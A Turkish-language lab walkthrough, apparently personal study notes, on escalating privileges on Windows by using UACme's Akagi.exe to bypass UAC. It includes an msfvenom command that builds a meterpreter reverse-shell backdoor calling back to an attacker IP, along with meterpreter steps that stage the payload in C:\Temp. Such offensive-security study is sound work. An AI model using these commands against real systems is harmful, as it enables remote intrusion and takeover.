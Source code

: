 
## Upload Akagi.exe
![[Pasted image 20240205231644.png]]

---
## ŞİMDİ ASlında Bundan Önce 
##### MSFVENOM ile Bir Payload yapacağız. Akagi.exe bizim UAC-bypass yapmamızı sağladığında çalıştırılacak olan Payload bu olacak ve bize NT-Authority olarak istediğimiz komutu çalıştırmamızı payloadımızı çalıştırmamızı sağlayacak.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.4 LPORT=5555 -f exe > backdoor.exe
```

![[Pasted image 20240205232259.png]]
##### UACme klasörü içine koydum.

### Tabiki şimdi Bu Payload çalışınca dinleyen ve shell alan birileri lazım. 
![[Pasted image 20240205232530.png]]

---

### Geçen Derste Temp klasörünü bulamamıştık. Şimdi Kendimiz C:\\ klasörü altına kendimiz meterpreter ile yaptık.
![[Pasted image 20240205232755.png]]
```
cd C:\\
mkdir Temp
```

![[Pasted image 20240205232906.png]]
![[Pasted image 20240205233010.png]]
### Biz Akagi.exe ---- backdoor.exe'yi TEMP klasörüne gönderdik.

## shell session'a geçtik
![[Pasted image 20240205233128.png]]
##### Eğer biz şimdi direk backdoor.exe'yi privilege ile çalıştırmak istesek bize UAC izin vermez.
### Şimdi bypass yapmak için 23 numaralı methodu kullanacağız.

![[Pasted image 20240205230254.png]]
